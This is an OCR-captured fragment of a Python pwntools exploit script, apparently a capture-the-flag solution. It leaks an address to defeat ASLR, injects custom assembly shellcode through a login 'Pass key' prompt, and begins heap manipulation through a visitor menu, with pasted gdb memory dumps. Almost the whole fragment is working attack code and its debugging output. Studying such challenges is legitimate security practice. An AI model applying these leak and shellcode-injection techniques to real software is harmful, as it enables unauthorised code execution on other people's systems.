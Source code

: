 ```assembly
        p.recvuntil(b"|")
    image_leak = int(p.recvuntil(b"|", drop=True).decode(), 16)
    print(hex(image_leak))

    # raw_input()

    app_base = image_leak-0x173f5

    # write null-off shellcode
    p.sendafter(b"Visitor): ", b"1\r")
    p.sendafter(b"Username: ", b"Admin\r")
    shellcode = asm('''
    jmp JUMP;
    .byte 0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90;
    .byte 0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90;
    JUMP:
        mov rax, r15;
        mov rbx, 0x1461e11;
        shr rbx, 8;
        sub rax, rbx;
        jmp rax;
    ''')
    # .text:00000000000003EC                 call    sha256_update
    # break here to check rdi value
    # b *(-0x173f5+0x3EC)
    # raw_input()

    p.sendafter(b"Pass key: ", shellcode+b"\r")

    # raw_input()
    '''
    leak - real
    >>> hex(0x282bebd2-0x282ae6cf)
    '0x10503'
    '''

    # into visitor system
    p.sendafter(b"Visitor): ", b"2\r")

    # .data:00000000000208E0 visitor         dq 0
    # 

    # new
    new_visitor(1, b"yama", b"a")

    # raw_input()
    '''
    gdb-peda$ x/90gx 0x000000002a552018
    0x2a552018:     0x0000000000000001      0x000000002a552f18
    0x2a552028:     0x000000002a552f98      0xafafafaf6c617470

    gdb-peda$ x/90gx 0x000000002a552f18-0x10
    0x2a552f08:     0x0000000000000000      0x0000000000000040
    0x2a552f18:     0xafafaf00616d6179      0xafafafafafafafaf data[0x18]
    0x2a552f28:     0xafafafafafafafaf      0xafafafaf6c617470 ptal
    0x2a552f38:     0x0000000000000040      0xafafafafafafafaf
    0x2a552f48:     0xafafafafafafafaf      0xafafafafafafafaf
    0x2a552f58:     0xafafafafafafafaf      0xafafafafafafafaf
    0x2a552f68:     0xafafafafafafafaf      0xafafafafafafafaf
    0x2a552f78:     0xafafafafafafafaf      0x0000000030646870 phd0
    0x2a552f88:     0x0000000000000000      0x0000000000000060
    0x2a552f98:     0xafafafafafaf0061      0xafafafafafafafaf data[0x38]
    0x2a552fa8:     0xafafafafafafafaf      0xafafafafafafafaf
```